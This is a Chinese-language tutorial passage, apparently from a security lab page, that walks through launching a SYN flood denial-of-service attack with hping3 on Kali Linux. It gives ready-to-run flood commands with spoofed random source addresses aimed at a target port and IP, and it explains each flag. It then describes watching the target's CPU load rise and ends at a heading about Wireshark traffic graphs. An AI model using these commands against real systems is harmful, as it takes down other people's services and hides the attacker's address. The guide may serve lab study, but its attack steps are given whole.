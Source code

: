## 2、使用Hping发起SYN Flooding攻击

我们先来一次简单的SYN FLOOD攻击：

(1)查看被攻击主机的IP和端口信息:ifconfig/all 获取IP

(2)netstat -ano 获取开放端口,最好找那些处于listenning的端口

(3)然后kali上输入:hping3 -S -p 135 --flood -V --rand-source 192.168.1.2

\-S表示采用SYN半连接方法

\--flood 尽可能快的发送数据包

\--rand-source 表示伪造IP地址

\-V 启用详细输出

(4)执行上述命令后在目标机上打开任务管理器

(5)查看CPU的利用率，你会发现明显提高了

1.我们采用Kali Linux
2中自带的hping3来进行一次拒绝服务攻击。这是一款用于生成和解析TCP/IP协议数据包的开源工具,之前推出过hping和hping2两个版本,目前最新的版本是hping3,利用这款工具我们可以快速定制数据包的各个部分,
hping3也是一个命令式的工具,其中的各种功能要依靠设置参数来实现。启动hping3的方式就是在Kali
Linux2中启动一个终端,然后输入"hping3 "即可.

root@kali:-\# hping3

hping3\>

2.现在我们就利用刚刚介绍过的hping3参数来构造一次基于TCP协议的拒绝服务攻击。在Kali
Linux 2中打开一个终端,然后在终端中输入:

hping3 -q -n --rand-source -S -p 80 --flood 目标IP

3\. 这时攻击就开始了,在这个过程中可以随时使用Ctrl+C组合键来结束这次攻击

1.  WireShark的流量图功能

2.  查看流量图

![](wireshark.assets/86648fac2c26fd1c7689a834d9eb880a.png)
